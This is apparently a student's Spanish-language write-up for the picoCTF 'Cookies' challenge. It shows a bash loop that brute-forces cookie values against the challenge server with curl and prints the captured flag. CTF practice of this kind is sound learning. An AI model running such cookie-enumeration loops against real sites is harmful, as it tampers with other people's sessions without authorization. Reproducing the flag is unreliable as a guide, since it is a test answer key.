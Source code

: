 # Cookies

---
## Objectivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

---
## Solución

Usando curl
``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ nano Cookie.sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ chmod 777 Cookie.sh 
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ ./Cookie.sh 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ 
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ cat Cookie.sh 
#!/bin/bash

contador=0
final=20

until [ $final -lt  $contador ]
do
	curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$contador" | grep picoCTF{
	let contador=$contador+1
	
done
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ 



```

### `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

---
## Notas adicionales

### Comandos linux

**curl**
Los comandos de Curl están diseñados para funcionar como una forma de verificar la conectividad a las URL y como una gran herramienta para transferir datos.
**-s** Silenciar la salida.


---
## Referencias

https://www.hostinger.mx/tutoriales/comando-curl

https://help.claris.com/es/pro-help/content/curl-options.html


	